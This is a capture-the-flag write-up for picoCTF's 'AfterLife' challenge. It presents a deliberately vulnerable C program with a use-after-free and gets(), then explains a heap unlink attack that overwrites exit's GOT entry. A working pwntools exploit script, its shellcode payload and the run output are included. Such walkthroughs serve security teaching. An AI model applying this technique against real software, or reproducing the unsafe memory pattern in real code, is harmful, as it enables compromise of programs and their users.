 # AfterLife
Binary Exploitation, 400 points

## Description:
> Just pwn this program and get a flag.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#define FLAG_BUFFER 200
#define LINE_BUFFER_SIZE 20

void win() {
  char buf[FLAG_BUFFER];
  FILE *f = fopen("flag.txt","r");
  fgets(buf,FLAG_BUFFER,f);
  fprintf(stdout,"%s\n",buf);
  fflush(stdout);
}

int main(int argc, char *argv[])
{
   //This is rather an artificial pieace of code taken from Secure Coding in c by Robert C. Seacord 
   char *first, *second, *third, *fourth;
   char *fifth, *sixth, *seventh;
   first=malloc(256);
   printf("Oops! a new developer copy pasted and printed an address as a decimal...\n");
   printf("%d\n",first);
   strncpy(first,argv[1],LINE_BUFFER_SIZE);
   second=malloc(256);
   third=malloc(256);
   fourth=malloc(256);
   free(first);
   free(third);
   fifth=malloc(128);
   puts("you will write on first after it was freed... an overflow will not be very useful...");
   gets(first);
   seventh=malloc(256);
   exit(0);
}

```

Hints:

* If you understood the double free, a use after free should not be hard! http://homes.sice.indiana.edu/yh33/Teaching/I433-2016/lec13-HeapAttacks.pdf

## Solution:

As mentioned in the comment, this is an artificial example taken from [Secure Coding in C and C++](https://www.amazon.com/Secure-Coding-2nd-Software-Engineering/dp/0321822137). A complete analysis of the example exists in the book, and this writeup is inspired by it.

The vulnerability here is *use after free*: 

```c
free(first); // <-- 'first' is freed
free(third);
fifth=malloc(128);
puts("you will write on first after it was freed... an overflow will not be very useful...");
gets(first); // <-- 'first' is used
```

The setup is very similar to [SecondLife](SecondLife.md). This time, we are able to directly overwrite a chunk which is already located in one of the bins. We overwrite it with the exact same payload as before:

```python
payload = p32(exe.got["exit"] - 12) + p32(address + 8) + asm('push {}; ret;'.format(hex(exe.symbols["win"])))
```

This will cause the buffer to look like:
```
                                Buffer                          Legend
                                +------------------------+---+  +------------------------+---+
                                | Size of chunk          | 0 |  | Size of chunk          | 0 |
Pointer returned by malloc -->  +------------------------+---+  +------------------------+---+
                                | exe.got["exit"] - 12       |  | Forward Pointer            |
                                +----------------------------+  +----------------------------+
                            +---| address + 8                |  | Back Pointer               |
                            +-> +----------------------------+  +----------------------------+
                                | push 'win'; ret;           |  | Unused                     |
                                |                            |  |                            |
                                +----------------------------+  +----------------------------+
                                | Size of chunk              |  | Size of chunk              |
                                +----------------------------+  +----------------------------+
```

We add 8 bytes to `address` (which is the base address of the first buffer) since that's where we located our shellcode, right after `p32(exe.got["exit"] - 12) + p32(address + 8)`.

We continue with:
```c
seventh=malloc(256);
```

The heap manager goes to the appropriate bin and fetches the 'first' chunk in order to return it to the user. Therefore, the chunk should be removed from the linked list by calling `unlink`:
```c
FD = P->fd;  // FD points to (exe.got["exit"] - 12), since that's the value we overran the buffer with
BK = P->bk;  // BK points to (address of first + 8), since that's the value we overran the buffer with
FD->bk = BK; // (exe.got["exit"] - 12) + 12 = (address of first + 8); We wrote an arbitrary DWORD to an arbitrary location
BK->fd = FD; // (address of first + 8) + 8 = (exe.got["exit"] - 12); Side effect
```

The `unlink` macro allowed us to overwrite the .got.plt address of `exit` with the address of our shellcode. Notice that as a side-effect, a part of the buffer was overwritten. Since our shellcode is very short, it won't be corrupted. If it was longer, we would have had to use a trampoline as demonstrated in [Heap overflow](Heap_overflow.md).

Now, when we call `exit`, our shellcode gets called instead and gives us the flag.

```python
# First, generate a pwntools template using:
# pwn template --host 2019shell1.picoctf.com --user dvdalt --path /problems/afterlife_2_049150f2f8b03c16dc0382de6e2e2215/vuln

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      No PIE (0x8048000)
# RWX:      Has RWX segments

import os

if shell is not None:
    shell.set_working_directory(os.path.dirname(remote_path))

io = start(["arg1"])

io.recvuntil("Oops! a new developer copy pasted and printed an address as a decimal...\n")
address = int(io.recvline())

log.info("Address of buffer: {}".format(hex(address)))
log.info("Address of exit(): {}".format(hex(exe.got["exit"])))
log.info("Address of win(): {}".format(hex(exe.symbols["win"])))

payload = p32(exe.got["exit"] - 12) + p32(address + 8) + asm('push {}; ret;'.format(hex(exe.symbols["win"])))
log.info("payload:\n{}".format(hexdump(payload)))

io.sendlineafter("you will write on first after it was freed... an overflow will not be very useful...", payload)
print io.recvall()
```

Output:
```console
root@kali:/media/sf_CTFs/pico/AfterLife# python exploit.py
[*] '/media/sf_CTFs/pico/AfterLife/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] dvdalt@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Opening new channel: 'pwd': Done
[+] Receiving all data: Done (13B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/tmp/tmp.OSZrQeZjJT'
[+] Opening new channel: 'ln -s /home/dvdalt/* .': Done
[+] Receiving all data: Done (0B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/problems/afterlife_2_049150f2f8b03c16dc0382de6e2e2215'
[+] Starting remote process '/problems/afterlife_2_049150f2f8b03c16dc0382de6e2e2215/vuln' on 2019shell1.picoctf.com: pid 1137324
[*] Address of buffer: 0x9b58008
[*] Address of exit(): 0x804d02c
[*] Address of win(): 0x8048966
[*] payload:
    00000000  20 d0 04 08  10 80 b5 09  68 66 89 04  08 c3        │ ···│····│hf··│··│
    0000000e
[+] Receiving all data: Done (31B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1137324)

picoCTF{what5_Aft3r_187f3d9a}
```